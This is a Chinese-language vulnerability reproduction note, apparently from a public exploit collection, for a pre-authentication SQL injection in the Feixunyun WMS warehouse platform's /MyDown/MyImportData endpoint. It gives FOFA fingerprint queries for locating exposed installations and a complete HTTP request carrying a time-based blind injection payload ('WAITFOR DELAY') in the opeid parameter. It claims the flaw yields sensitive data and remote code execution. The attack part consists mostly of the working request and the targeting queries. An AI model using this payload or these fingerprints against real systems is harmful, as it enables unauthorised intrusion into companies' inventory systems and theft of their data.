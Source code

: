 # 飞讯云供应链平台MyImportData 前台SQL注入

# ke一、漏洞简介
WMS系统是借助条码、移动设备、互联网等技术实现仓库收、发、存等作业流程的自动化、和数字化的信息管理系统，旨在帮助客户解决库存分类管理和实时监控、仓库延迟录入和账务不符、仓储作业效率和作业合规、物料批次管理和库存库龄预警等问题，实现降低内部存货风险，提高企业的资金流转，促进产、销、供与财务端间的有效协同和提升仓库库容率和仓储运作效率的目标。 飞讯云WMS系统存在SQL注入，成功利用该漏洞可获取敏感信息，造成远程代码执行。

# 二、影响版本
+ 飞讯云WMS

# 三、资产测绘
+ fofa`icon_hash="-2088130336"``body="wx8ccb75857bd3e985"`
+ 特征

![1721892431875-70ae1713-fa25-4875-b9f0-de4a891b31f2.png](./img/ZJLY5lae1UPP7ur9/1721892431875-70ae1713-fa25-4875-b9f0-de4a891b31f2-603050.png)

# 四、漏洞复现
```plain
GET /MyDown/MyImportData?opeid=%27+WAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: JSESSIONID=83a23f73-2908-4424-abd9-6b044cdfe003; Language=zh-CN
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

![1721892461788-574ec73d-01c4-4aea-b83a-ca51a265c5a1.png](./img/ZJLY5lae1UPP7ur9/1721892461788-574ec73d-01c4-4aea-b83a-ca51a265c5a1-340837.png)



> 更新: 2024-08-12 17:15:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rldp6r4s4n2hly4z>